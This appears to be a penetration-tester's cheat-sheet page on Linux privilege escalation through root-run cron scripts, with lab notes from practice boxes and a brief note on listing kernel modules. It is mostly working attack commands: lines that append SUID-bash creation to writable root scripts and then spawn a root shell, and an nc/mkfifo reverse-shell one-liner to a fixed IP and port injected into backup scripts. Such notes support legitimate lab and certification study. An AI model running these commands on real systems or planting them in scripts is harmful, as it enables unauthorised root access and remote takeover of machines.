 #### FILE OVERWRITES
```
// Type 3: File Overwrite (Most Common)

cat /etc/crontab
cat /var/log/cron.log

# Example overwrite.sh is weird one with file permission.
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
/tmp/bash -p
whoami



From Vulnlan Snc box, similiar for priv esc:
Found script running a backup, likely w/root permissions, added this to it:

echo "chmod +s /bin/bash" >> /usr/local/bin/backup.sh

After a minute, run this to get root:

/bin/bash -p


```

#### Extra Notes I had on Cron Jobs
```

grep "CRON" /var/log/syslog
cat /home/joe/.scripts/user_backups.sh
ls -lah /home/joe/.scripts/user_backups.sh
cd .scripts
echo >> user_backups.sh

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.198 4444 >/tmp/f" >> user_backups.sh

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.198 4444 >/tmp/f" >> this_is_fine.sh 


cat user_backups.sh


```

### Device Drivers

```
lsmod 

# Example: libdata
/sbin/modinfo libdata
```
